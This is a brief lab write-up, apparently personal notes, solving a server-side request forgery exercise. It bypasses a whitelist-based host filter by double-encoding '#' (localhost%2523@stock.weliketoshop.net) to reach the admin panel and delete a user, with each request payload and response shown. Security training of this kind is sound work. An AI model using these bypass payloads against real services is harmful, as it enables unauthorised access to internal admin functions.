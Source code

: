 # Lab 4: SSRF with whitelist-based input filter

- Vulnerability Feature: stock check
- Goal: change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user carlos

### Analysis
- Open Burp Suite
```html
<!-- Request -->
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

<!-- Response -->
376
```
- Decode URL
```html
<!-- Request -->
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1

stockApi=http://localhost/


<!-- Response -->
"External stock check host must be stock.weliketoshop.net"
```

```html
<!-- Request -->
stockApi=http://username@stock.weliketoshop.net:8080/

<!-- Response -->
"Missing parameter"
```

```html
<!-- Request -->
stockApi=http://username#@stock.weliketoshop.net:8080/

<!-- Response -->
"External stock check host must be stock.weliketoshop.net"
```

- Endcoed paramert `#` twice
```html
<!-- Request -->
stockApi=http://username%2523@stock.weliketoshop.net:8080/

<!-- Response -->
Could not connect to external stock check service
```

- Change `username` to `localhost`
```html
<!-- Request -->
stockApi=http://localhost%2523@stock.weliketoshop.net:8080/

<!-- Response -->
<a href="/admin">
    Admin panel
</a>
```

```html
<!-- Request -->
stockApi=http://localhost%2523@stock.weliketoshop.net:8080/admin

<!-- Response -->
<a href="/admin/delete?username=wiener">
    Delete
</a>
```

- Delete username carlos
```html
<!-- Request -->
stockApi=http://localhost%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos
```
- Click `Follow redirection`
- Congratulations!